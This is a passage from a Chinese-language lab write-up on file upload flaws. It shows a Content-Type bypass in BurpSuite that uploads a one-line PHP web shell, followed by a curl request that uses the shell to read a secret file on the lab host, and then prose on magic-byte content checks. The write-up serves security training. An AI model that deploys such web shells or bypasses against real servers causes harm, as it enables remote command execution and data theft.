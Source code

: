 

Content-Type 为：application/octet-stream，如果直接进行提交，服务端返回内容如下：

```
Sorry, file type application/octet-stream is not allowed
        Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file.
```



在 BurpSuite 将 Content-Type 字段内容修改成 image/png，然后重新提交，上传成功。

```
------WebKitFormBoundaryvqUOXcGVDjOA4AqO
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php system($_GET['command']); ?>
```

```
The file avatars/shell.php has been uploaded
```



通过后门获取 /home/carlos/secret 文件内容。

```
curl -i https://0a93000f037d9bf3df7a47c000eb00f7.web-security-academy.net/files/avatars/shell.php?command=cat%20/home/carlos/secret
```



```
HTTP/1.1 200 OK
Date: Sun, 09 Mar 2025 02:28:35 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Set-Cookie: session=iAT9hO4cOeuOPnvLyeOTZxJjmCoDzwA2; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 32

QZn57J3skYw02ANS7qenAlB1k008Wk6g
```



###  内容验证缺陷

相较于无条件采信 HTTP 请求头中声明的 Content-Type 值，安全性更高的服务器会主动验证上传文件的实际内容是否真正符合预期格式。

以图片上传功能为例：服务器可能会校验文件是否具备特定的内在属性（如图像分辨率等）。例如若用户试图上传 PHP 脚本文件，由于这类文件不具备任何图像解析所需的视觉维度参数，服务器可以据此推断这类文件不可能为合规图像并拒绝上传请求。



部分文件类型始终会在文件头或文件尾包含特定字节序列，这些序列如同数字指纹或签名，可用于判断文件内容是否符合预期类型。以JPEG文件为例，其始终以十六进制值FF D8 FF作为开头。
